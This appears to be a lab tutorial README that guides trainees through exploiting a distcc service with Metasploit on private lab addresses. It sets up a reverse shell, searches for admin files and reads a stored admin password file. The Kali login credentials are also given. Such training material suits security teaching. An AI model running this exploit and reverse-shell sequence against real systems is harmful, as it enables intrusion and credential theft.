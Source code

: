 # Privilege Escalation Demo

**Note**: Ensure that you do not miss running any of the commands mentioned in the steps below. If you fail to run any of the commands, the lab validation may fail.

We will first set up a low-privileged shell using Metasploit, which you will then use for post-exploitation and privilege-escalation techniques.

1.  Open the Hyper-V Manager in your **LabVM** and right click on **Kali virtual machine** then click on **Connect** to connect to your **Kali virtual machine**.

    ![](./images/selecthyperv.png)

    ![](./images/kali.png)

    login to the Kali VM using username **root** and password **kali**.

2. On the Desktop of Kali VM, right click and choose **Open Terminal here**.

    ![](./images/terminal.png)

3. In the terminal enter **msfconsole** to launch msfconsole.

    ![](./images/msfconsole.png)

4. search for **distcc** using command **search distcc**.

    ![](./images/searchdistcc.png)

5. select the module using command **use exploit/unix/misc/distcc_exec**.

    ![](./images/use.png)

6. set the remote host using command **set RHOSTS 172.22.117.150**.

    ![](./images/Rhosts-1.png)

7. Before running the module, we need to set a payload. List the available payloads using command **show payloads**.

    ![](./images/showpay.png)

8. Select the reverse payload. Be sure NOT to select reverse_bash, or the exploit will not work using command **set PAYLOAD cmd/unix/reverse**.

    ![](./images/reverse.png)

9. Host that listens for the payload communication. In this case, our LHOST is the machine that we're currently operating on. 

    Run command **set LHOST 172.22.117.100**

    ![](./images/lhost.png)

10. Run the module.

    ![](./images/exploit1.png)

11. Use the `find` command (`find / -type f -iname "*admin*.txt"`), as the following image shows:

    ![](./images/find.png)

12. Run the commnd **cat /var/tmp/adminpassword.txt** to get the admin username and password.

    ![](./images/cat.png)

13. click on **ctrl + c** and then enter command **exit** from msfconsole.

    ![](./images/exit.png)

**Note**: Password Authentication should be enabled in metasploit machine for successful ssh into it.
